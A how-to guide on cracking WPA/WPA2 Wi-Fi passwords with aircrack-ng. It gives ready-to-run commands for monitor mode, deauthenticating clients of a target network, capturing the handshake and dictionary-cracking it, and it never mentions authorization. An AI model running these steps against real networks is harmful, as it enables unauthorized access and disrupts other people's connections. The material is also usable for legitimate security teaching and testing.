 # Password Cracking w/ aircrack

## TLDR Commands

```bash
sudo apt-get install aircrack-ng #installs the aircrack suite
sudo airmon-ng start wlan0 #assuming wlan0 is the wlan of the wireless card
sudo airodump-ng wlan0mon #see local BSSIDs/ESSIDs
#run following on one terminal
sudo airodump-ng -c <channel_number_of_network> --bssid <BSSID of network> -w <output location of captured files> wlan0mon
#run following on another terminal and wait for handshake capture
sudo aireplay --deauth <count of deauthentication packets> -a <BSSID of network> wlan0mon
#after capture
sudo aircrack-ng <location of .cap file> -w <dictionary or wordlist>
```

## Setup

When it comes to password cracking, there are two main components that can potentially prevent you from cracking the password. This is not being able to capture the 4-way handshake, as well as not having the actual password in your wordlist. This guide will walk you though how to crack WPA/WPA2 passwords, as long as you have the two aforementioned items. I will be doing these cracks using the Kali Linux VMware OS. In order to intercept packets and crack passwords, we will need a network adapter. I have bought [this one](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2/) from Amazon:

![](../.gitbook/assets/image%20%2842%29.png)

Next you will have to install the software for cracking the password. We will be using the aircrack-ng suite for this. In order to download this, run the following command:

```c
sudo apt-get install aircrack-ng
```

This will download aircrack-ng, as well as the dependencies for air-crack-ng.

## Intercepting Passwords

In order to crack passwords, we will first have to capture the 4-way handshake. This allows us to then crack the capture \(.cap\) file in order to find out the password. In order to do this, we have to run the following command:

```bash
sudo airmon-ng start wlan0 #assuming wlan0 is the wlan of the wireless card
```

This command will initialize our wireless card to be in monitor mode. We can then use it to intercept traffic. The next command we will use will allow us to see the nearby networks and see their BSSIDs.

```bash
sudo airodump-ng wlan0mon #same assumption as above
```

We can now see the local networks, alongside their BSSIDs. I usually let the command run for 10-30 seconds, which gives it enough time to get together a good list of local networks. We then have to capture the handshake. For this to happen, we will have to have two terminal windows open simultaneously. On the first terminal we will run the following command:

```bash
sudo airodump-ng -c <channel_number_of_network> --bssid <BSSID of network> -w <output location of captured files> wlan0mon
```

On the other terminal, we will run:

```bash
sudo aireplay --deauth <count of deauthentication packets> -a <BSSID of network> wlan0mon
```

This part gets a bit complicated. We have to run the "aireplay" command with a count that will allow us to get a handshake capture. For me, 20 works. The capture will be seen in the terminal running "airodump-ng". If nothing has changed in the "airodump-ng" terminal, then the handshake has not been captured yet. When the handshake is captured, you can go to the "Cracking Passwords" section of this tutorial.

## Cracking Passwords

In order to crack passwords, there are 2 main methods to do it: using aircrack-ng to crack the password file, or using a password cracking software such as John the ripper or hashcat. I will be using the aircrack-ng command to crack the passwords. As I mentioned earlier, the only way you will be able to crack the password are based on two conditions: you have a 4-way handshake captured in a .cap file, and you have the password to the wifi in the dictionary you are using. I would reccomend building your own wordlist. This can help you have a dictionary which has 8+ characters \(which is the minimum password size\). I would look at the following links to make your own list. I use a \(somewhat\) combination of all of the following links:

* [https://github.com/kennyn510/wpa2-wordlists](https://github.com/kennyn510/wpa2-wordlists)
* [https://github.com/danielmiessler/SecLists/tree/master/Passwords/WiFi-WPA](https://github.com/danielmiessler/SecLists/tree/master/Passwords/WiFi-WPA)
* [https://github.com/berzerk0/Probable-Wordlists/blob/master/Real-Passwords/WPA-Length/Real-Password-WPA-MegaLinks.md](https://github.com/berzerk0/Probable-Wordlists/blob/master/Real-Passwords/WPA-Length/Real-Password-WPA-MegaLinks.md)

You could also make your own password list using the "crunch" command on Kali or Parrot OS.

To crack the password, using the aircrack-ng command, we will run the following command:

```bash
sudo aircrack-ng <location of .cap file> -w <dictionary or wordlist>
```

### Resources

* [https://book.hacktricks.xyz/pentesting/pentesting-network/wifi-attacks\#wifi-basic-commands](https://book.hacktricks.xyz/pentesting/pentesting-network/wifi-attacks#wifi-basic-commands)
* [https://medium.com/@brannondorsey/crack-wpa-wpa2-wi-fi-routers-with-aircrack-ng-and-hashcat-a5a5d3ffea46](https://medium.com/@brannondorsey/crack-wpa-wpa2-wi-fi-routers-with-aircrack-ng-and-hashcat-a5a5d3ffea46)
* [https://medium.com/@TheEyeOfCyberBuckeyeSecurity/how-to-crack-wpa-wpa2-wi-fi-passwords-using-aircrack-ng-8cb7161abcf9](https://medium.com/@TheEyeOfCyberBuckeyeSecurity/how-to-crack-wpa-wpa2-wi-fi-passwords-using-aircrack-ng-8cb7161abcf9)
* \(MacOS aircrack setup\) [https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html](https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html)

